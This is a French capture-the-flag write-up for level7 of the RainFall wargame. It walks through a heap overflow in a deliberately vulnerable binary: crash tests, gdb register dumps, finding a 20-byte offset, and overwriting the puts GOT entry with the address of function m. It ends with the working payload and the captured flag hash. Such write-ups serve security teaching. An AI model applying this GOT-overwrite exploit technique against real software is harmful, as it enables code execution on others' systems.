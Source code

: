 # Solution

```
./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

## Description du code

En observant le code source on peu constater que des pointeur on ete malloc et ensuite strcpy est utiliser sans verifier la taille de ce qui est copier.
La fonction m affiche une variable global c dans laquel le .pass est stocker apres l'appel de fgets.
On va donc pouvoir cree un overflow et utiliser une vulnérabilité.

## Test

--------------------------------------
Quelque test :
```
test1 :
level7@RainFall:~$ ./level7 AAA aaa
~~

test2 :
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')
Segmentation fault (core dumped)

test3 :
level7@RainFall:~$ ./level7 $(python -c 'print("A")') $(python -c 'print("BBB" * 200)')
~~

test4 :
level7@RainFall:~$ ./level7 $(python -c 'print("A")') $(python -c 'print("BBB" * 20000)')
~~
```
--------------------------------------
Analyse des registre :

Apres les test on peu voir que seulement av[1] overflow sur des donnée critique.
On va analiser les registres lors de l'overflow :

level7@RainFall:~$ gdb ./level7
(gdb) run $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')
Starting program: /home/user/level7/level7 $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f42 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) 

(gdb) info register
eax            0x424242	4342338
ecx            0xbffff909	-1073743607
edx            0x41414141	1094795585
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff63c	0xbffff63c
ebp            0xbffff668	0xbffff668
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f42	0xb7eb8f42
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

(gdb) disassemble main
Vue sur l'appel du deuxieme strcpy
(...)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
(...)

eax contient notre av[2] et notre overflow a ecrasé eax, et que l'on ecrase pas eip.
On peu en conclure ceci :

- eip ne sera pas utile cette fois ci pas de ret to libc 
- edx est ecrasé et sert contient l'argument 1 du second strcpy
- eax lui contient l'argument numero 2 du second strcpy

--------------------------------------

## Description de l'exploit

On va pouvoir utiliser une vulnerabilité appeler "heap overflow".
Le principe sera d'ecraser l'argument 1 du second strcpy par l'adresse de puts, et de mettre l'adresse de m dans le second argument, 
afin que l'adresse de m sois copier dans l'adresse de puts ce qui va permettre de lancer m a la place de puts.
Comme puts est une fonction de la libc il faudra recuper don adresse dans la GOT.

-----------------
D'abord recuperons le critical offset lorsque l'on ecrase edx :

(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A BBBB
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A BBBB

Breakpoint 1, 0x08048524 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f52 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) info register
eax            0x42424242	1111638594
ecx            0xbffff908	-1073743608
edx            0x37614136	929120566
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff69c	0xbffff69c
ebp            0xbffff6c8	0xbffff6c8
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f52	0xb7eb8f52
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51


0x37614136 -> ASCII + REVERSE -> 6Aa7

6Aa7 = 20 

-----------------

Adresse de m :
```
(gdb) p &m
$1 = (<text variable, no debug info> *) 0x80484f4 <m>
```
-----------------

AGOT adresse de puts :

```
(gdb) info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
0xb7e911a0  _IO_fputs
0xb7e911a0  fputs
0xb7e927e0  _IO_puts
0xb7e927e0  puts
0xb7e96ee0  fputs_unlocked
0xb7f20750  putspent
0xb7f21fa0  putsgent

(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
```
-----------------
## Payload

GOT adress of puts : 0x08049928
Adress of m : 0x080484f4
Critical Offset : 20
```
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1713690987
```